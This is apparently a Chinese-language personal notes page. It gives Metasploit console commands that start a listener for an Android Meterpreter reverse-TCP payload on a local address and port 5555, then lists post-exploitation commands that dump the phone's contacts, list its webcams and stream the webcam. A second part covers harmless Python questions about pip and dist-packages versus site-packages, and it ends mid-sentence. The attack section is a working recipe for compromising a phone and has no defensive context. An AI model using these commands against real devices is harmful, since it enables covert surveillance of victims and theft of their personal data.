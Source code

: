 输入 `msfconsole ` 启动

```
msf6 > use exploit/multi/handler
```

```
msf6 exploit(multi/handler) > set payload android/meterpreter/reverse_tcp
```

```
msf6 exploit(multi/handler) > set lhost 192.168.43.120
```

```
msf6 exploit(multi/handler) > set lport 5555
```

```
msf6 exploit(multi/handler) > run
```

`dump_contacts` 通讯录

`webcam_list` 

`webcam_stream` 监控视频





# other problems

问题一：

可先用pip list命令显示已安装包的信息（包名与版本号） 

再用pip show package_name命令能显示该安装的包的相关信息，其中包括它的安装路径。实际上包通常被安装在python安装目录下的lib\site-packages目录下

 

问题二：

python安装第三方包的安装路径，dist-packages和site-packages区别
            
            


简单来说
如果是系统自带的python，会使用dist-packages目录；
如果你手动安装python，它会直接使用目录site-packages。
这允许你让两个安装隔离开来。
dist-packages：系统自带的python
site-packages：自己安装的python

Python的包的安装路径如下

1、系统自带python
系统自带软件管理器安装， 模块将被安装到 dist-packages

/usr/lib/python2.7/dist-packages/

从 easy_install 和 pip (注： 是python的软件管理其，python有许许多多的软件) 使用，他们也使用 dist-packages,但是路径是：
